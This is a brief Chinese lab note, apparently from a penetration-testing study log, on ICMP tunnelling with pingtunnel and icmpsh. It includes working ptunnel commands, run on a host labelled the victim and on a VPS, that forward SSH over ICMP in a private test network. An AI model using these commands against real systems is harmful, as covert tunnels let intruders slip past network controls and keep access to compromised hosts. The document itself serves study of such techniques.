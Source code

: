 1.icmpsh（跑不起来）linux-windows

2.[pingtunnel](http://freshmeat.sourceforge.net/urls/f7770b6af3089face1ee4890eac8cee1) linux-linux/windows 

http://www.cs.uit.no/~daniels/PingTunnel/#download

 ps：linux需要先下载[libpcap](http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz)包，win需要先下载wincap。

实验记录：

受害主机执行：ptunnel -x shuteer

![image-20210131164821137](../image/image-20210131164821137.png)

vps执行：ptunnel -p 192.168.137.129 -lp 1080 -da 192.168.137.128 -dp 22 -x shuteer

![image-20210131164632829](../image/image-20210131164632829.png)

![尝试连接发现是可以使用ssh连接的，说明端口是连通了](E:\1.学习文档\4-Windows\image\image-20210131164958178.png)尝试连接发现是可以使用ssh连接的，说明端口是连通了

